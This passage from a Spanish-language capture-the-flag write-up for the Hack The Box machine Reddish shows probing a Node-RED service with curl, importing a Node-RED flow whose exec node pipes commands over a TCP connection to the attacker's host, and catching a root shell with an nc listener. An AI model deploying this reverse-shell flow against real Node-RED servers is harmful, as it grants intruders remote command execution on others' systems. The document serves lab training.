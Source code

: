 La página principal no acepta el método GET

```null
curl -s -X GET http://10.10.10.94:1880/ | html2text
Cannot GET /
```

Al cambiarlo a POST, recibo una respuesta diferente en JSON

```null
curl -s -X POST http://10.10.10.94:1880/ | jq
{
  "id": "faf87b26ed1623d73bd6e533b8d9fefd",
  "ip": "::ffff:10.10.16.9",
  "path": "/red/{id}"
}
```

Introduzco el path junto al identificador en la URL. Se trata de un ```node-red```

<img src="/writeups/assets/img/Reddish-htb/1.png" alt="">

Existe una forma de enviar una reverse shell a través de este servicio

```null
[{"id":"7235b2e6.4cdb9c","type":"tab","label":"Flow 1"},{"id":"d03f1ac0.886c28","type":"tcp out","z":"7235b2e6.4cdb9c","host":"","port":"","beserver":"reply","base64":false,"end":false,"name":"","x":786,"y":350,"wires":[]},{"id":"c14a4b00.271d28","type":"tcp in","z":"7235b2e6.4cdb9c","name":"","server":"client","host":"10.10.16.9","port":"443","datamode":"stream","datatype":"buffer","newline":"","topic":"","base64":false,"x":281,"y":337,"wires":[["4750d7cd.3c6e88"]]},{"id":"4750d7cd.3c6e88","type":"exec","z":"7235b2e6.4cdb9c","command":"","addpay":true,"append":"","useSpawn":"false","timer":"","oldrc":false,"name":"","x":517,"y":362.5,"wires":[["d03f1ac0.886c28"],["d03f1ac0.886c28"],["d03f1ac0.886c28"]]}]
```

Gano acceso a un contenedor

```null
nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.10.94] 36980
whoami
root
[object Object]
```

